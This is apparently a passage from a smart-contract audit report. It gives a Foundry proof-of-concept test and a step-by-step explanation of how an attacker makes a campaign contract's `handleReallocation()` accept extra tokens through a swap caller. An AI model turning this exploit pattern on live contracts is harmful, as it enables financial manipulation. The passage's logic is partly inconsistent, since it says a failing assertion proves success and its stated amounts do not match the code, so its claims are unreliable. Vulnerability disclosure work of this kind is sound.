 ```solidity
    uint256 intendedAmount = 100 ether;
    uint256 extraTokens = 400 ether; // Clearly extra tokens

    // Attacker approves swapCaller to transfer intended + extra tokens
    vm.startPrank(attacker);
    token.approve(swapCaller, intendedAmount + extraTokens);
    vm.stopPrank();

    // SwapCaller now receives intended amount + extra tokens
    vm.startPrank(swapCaller);
    token.transferFrom(attacker, swapCaller, intendedAmount + extraTokens);

    // SwapCaller approves campaign to spend ALL tokens it has (intended + extra)
    token.approve(address(campaign), intendedAmount + extraTokens);

    // Campaign mistakenly transfers all tokens, instead of just intendedAmount
    campaign.handleReallocation(1, attacker, address(token), intendedAmount, "");

    vm.stopPrank();

    // Verify total tokens campaign received (should equal intendedAmount, NOT intended + extra)
    uint256 totalReallocated = campaign.totalReallocatedAmount();

    // This assertion explicitly FAILS, showing exploit succeeded
    assertEq(totalReallocated, intendedAmount, "Exploit succeeded: Campaign accepted extra tokens!");
  }
}
```

### Overview of Tests

The Proof of Concept (PoC) demonstrates multiple ways an attacker can exploit the `handleReallocation()` function by making the contract accept more tokens than it should. The tests are written using Foundry's forge testing framework.

---

### Test 1: `test_RewardManipulationExploit()`

This test simulates a scenario where an attacker intentionally makes the contract accept extra tokens by depositing them through the `swapCaller`.

1. **Setup**:

- Attacker gets 500 tokens.
- The campaign is initialized, and the reward pool is funded with 10,000 tokens.

2. **Exploit Process**:

- The attacker approves the `swapCaller` to spend their tokens.
- The `swapCaller` takes the intended amount (100 tokens) from the attacker and approves the campaign.
- The campaign calls `handleReallocation()` with an intended amount of 100 tokens.
- However, due to improper handling, the contract accepts the entire balance of `swapCaller` instead of just 100 tokens.
